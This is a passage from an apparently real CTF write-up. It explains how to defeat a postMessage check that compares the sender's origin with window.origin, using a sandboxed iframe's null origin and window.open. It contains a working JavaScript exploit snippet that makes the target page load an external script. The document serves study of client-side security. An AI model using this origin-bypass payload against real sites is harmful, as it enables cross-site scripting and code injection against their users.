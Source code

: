 In here, the sender's origin must be the current window's origin.

Luckily, this can be bypassed via an [opaque origin](https://html.spec.whatwg.org/multipage/browsers.html#concept-origin-opaque) (`null` origin): [https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss/postmessage-exploitation#bypassing-window.origin-using-null-origin](https://book.jorianwoltjer.com/web/client-side/cross-site-scripting-xss/postmessage-exploitation#bypassing-window.origin-using-null-origin).

If an `<iframe>` element has attribute `sandbox`, and the value doesn't have `allow-same-origin`, the `<iframe>`'s origin will be `null`. ([https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-sandbox))

We can then use the `<iframe>`'s `srcdoc` attribute to open a new window to the target page. Since `window.open` will inherit the current window's origin, the newly opened window's origin will be `null`.

```javascript
const frame = document.createElement('iframe');
frame.sandbox = 'allow-scripts allow-popups allow-modals allow-top-navigation';

frame.srcdoc = `
<script>
const w = window.open('http://foo.com');

setTimeout(() => {
  w.postMessage({ 'siteExampleSource': 'http://example.com/main.js' }, '*');
}, 1000);
<\/script>
`;
document.body.appendChild(frame);
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/CUHK-CTF-2025/images/Pasted%20image%2020251004160205.png)
